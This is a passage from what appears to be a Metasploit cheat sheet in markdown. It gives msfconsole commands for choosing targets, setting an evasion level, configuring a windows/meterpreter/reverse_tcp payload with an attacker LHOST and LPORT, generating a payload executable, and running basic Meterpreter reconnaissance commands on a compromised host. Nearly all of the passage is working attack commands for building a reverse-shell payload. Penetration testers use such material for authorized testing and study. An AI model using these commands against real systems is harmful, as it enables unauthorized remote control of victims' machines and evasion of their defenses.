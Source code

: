 ### Target Configuration
```bash
# Show available targets
show targets

# Set specific target
set TARGET 2

# Show advanced options
show advanced

# Set advanced options
set EvasionLevel 1
```

### Payload Configuration
```bash
# Show compatible payloads
show payloads

# Set payload
set payload windows/meterpreter/reverse_tcp

# Set payload options
set LHOST 192.168.1.50
set LPORT 4444

# Generate payload
generate -f exe -o payload.exe
```

## Meterpreter

### Basic Meterpreter Commands
```bash
# System information
sysinfo

# Network interfaces
ipconfig

# Process list
ps

# User information
getuid

# Whoami
whoami
```
